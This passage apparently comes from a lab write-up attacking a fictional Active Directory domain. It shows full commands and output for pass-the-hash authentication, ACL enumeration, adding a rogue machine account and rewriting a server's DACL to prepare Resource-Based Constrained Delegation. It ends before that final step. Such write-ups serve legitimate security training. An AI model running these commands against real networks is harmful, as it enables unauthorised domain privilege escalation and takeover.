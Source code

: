 ### Enumerating ACLs

After discovering the credentials for the `Castle_Knight_21` user, we can verify them by running them against the Domain Controller.

```
proxychains -q nxc smb King-DC.async.empire -u 'Castle_Knight_21' -H '8d987bd5a242dcb12bf5a18a8cb68554'
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Castle_Knight_21:8d987bd5a242dcb12bf5a18a8cb68554 
```

Next, we can use `bloodyAD` to enumerate objects that we have write access to:

```
proxychains -q bloodyAD --host 'King-DC.async.empire' -u 'Castle_Knight_21' -p ':8d987bd5a242dcb12bf5a18a8cb68554' get writable         

...

distinguishedName: CN=WESTERN-OUTPOST,OU=Servers,DC=async,DC=empire
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

...
```

### Resource-Based Constrained Delegation Attack

We find that we have `WRITE` access to the `Domain Access Control Lists (DACLs)` for `western-outpost`, allowing us to modify access control settings on the machine. To avoid disrupting other operations, we'll create a new domain computer (which is also a domain account) and assign the ACLs there.

```
proxychains -q impacket-addcomputer 'async.empire'/'Towns_Merchant_7':'Hq7L2wPzX9' -computer-name 'GATARI' -computer-pass 'P@ssw0rd'                
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account GATARI$ with password P@ssw0rd.
```

Next, we can grant `GATARI$` full control (`GenericAll`) over `WESTERN-OUTPOST`

```
proxychains -q impacket-dacledit -action 'write' -rights 'FullControl' -principal 'GATARI$' -target 'WESTERN-OUTPOST$' 'async.empire'/'Castle_Knight_21' -hashes ':8d987bd5a242dcb12bf5a18a8cb68554'        

[*] DACL backed up to dacledit-20250509-045959.bak
[*] DACL modified successfully!                               
```

With full access to the machine, we can simply modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on `WESTERN-OUTPOST$` to allow `GATARI$` to impersonate any user to the machine. This is an attack known as: [Resource-Based Constrained Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd).
